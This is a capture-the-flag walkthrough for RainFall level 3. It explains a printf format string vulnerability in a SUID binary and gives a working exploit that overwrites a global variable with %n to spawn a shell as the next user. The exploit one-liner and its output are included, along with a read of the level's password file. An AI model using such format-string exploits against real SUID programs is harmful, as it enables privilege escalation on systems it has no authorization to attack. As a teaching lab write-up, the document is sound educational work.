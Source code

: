 # Walkthrough for Level 3

## Understanding the Binary

The `v` function is not vulnerable to a buffer overflow attack since it uses the safe function `fgets` to populate the
buffer. However, it is vulnerable to a format string attack because it passes user input directly to `printf` as a
format string instead of as a plain text string. This type of attack allows us to write to arbitrary memory locations.
On the other hand, we see that if the value of the global variable `m` is 64, a shell is spawned. Since `level3` is a
SUID binary owned by `level4`, the resulting shell will run with the permissions of `level4`. Therefore, we will use a
format string attack to overwrite the value of `m` with 64 and then spawn a shell.

## Understanding the Format String Attack

The format string vulnerability occurs when an attacker can provide a string that the program interprets as a format
instruction, due to a mistake in how the programmer uses functions like printf. This allows the attacker to affect the
program's behavior in unintended ways.

```c
#include  <stdio.h> 
void main(int argc, char **argv)
{
	// This line is safe
	printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);
}
```

```shell
./example "Hello World %p%p%p%p%p%p"
Hello World %p%p%p%p%p%p
Hello World 000E133E 000E133E 0057F000 CCCCCCCC CCCCCCCC CCCCCCCC
```

## The format parameter `%n`

The `%n` format specifier in C's `printf` function is used to write the number of characters printed so far into a
variable. Executing the next line of code will result in writing the value 5 into the `m` variable.

```c
printf("AAAAA%n", &m);
```

If the address of a variable is not provided, `%n` will write the number of characters printed so far to the location
pointed to by the next argument on the stack.

## Obtaining the address of the global variable `m`

We use `nm` to find the address of the global variable `m` in the `level3` binary. The address is `0x0804988c`.

```shell
└─$ nm ./level3 | grep "B m"
0804988c B m
```
Converted to little-endian, this address becomes `\x8c\x98\x04\x08`.

## Positional parameters

We can specify the positional parameter in the format string by using `%q$` at the beginning of the format specifier,
where `q` is the position of the parameter in the argument list. The parameter position starts at 1 for the first
argument after the format string.

```c
printf("%1$s %2$s", "November", "10");
```

Output: November 10

## Determining the Position of our argument on the Stack

To find the position of our argument on the stack, we can run the binary with a format string that prints several values
from the stack.

```shell
level3@RainFall ~ $ ./level3 
AAAA.%p.%p.%p.%p.%p
AAAA.0x200.0xf7f985c0.0x1000000.0x41414141.0x2e70252e
```

We can see that the 4th argument on the stack is 0x41414141 (which corresponds to AAAA in hexadecimal), so we will use
4 as our positional parameter. Adding the positional specifier to the format parameter results in: `%4$n`.

## Calculating the number of characters needed 

We need to print a total of 64 characters in the printf function to set the value of `m` using the `%n` format
parameter. Since we already print 4 bytes for `\x8c\x98\x04\x08`, we need 60 more characters to reach a total of 64.

## Crafting the Exploit

We craft the final exploit by concatenating:
- the address of `m` in little-endian: `\x8c\x98\x04\x08`
- any character repeated `number_of_characters_needed` times: `"A" * 60`
- the format parameter with the positional specification: `"%4$n"`

exploit = `\x8c\x98\x04\x08` + "A" * number_of_characters_needed + `"%4$n"`

We use Python to generate the exploit and save it to a file:

```shell
level3@RainFall ~ $ python2 -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit3
```

## Running the Exploit

We use the `cat` command with the `-` option to keep STDIN open, since the shell executed by the `v` function needs an
interactive terminal to work properly. Once we run our exploit successfully, we can use the `whoami` command to verify
that the shell is running as the `level4` user.

```shell
level3@RainFall ~ $ cat /tmp/exploit3 - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
```

## Getting the Password

Finally, we can read the `.pass` file of `level4` to complete the level.

```shell
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

We can now log in via SSH as the `level4` user using the password we just found.
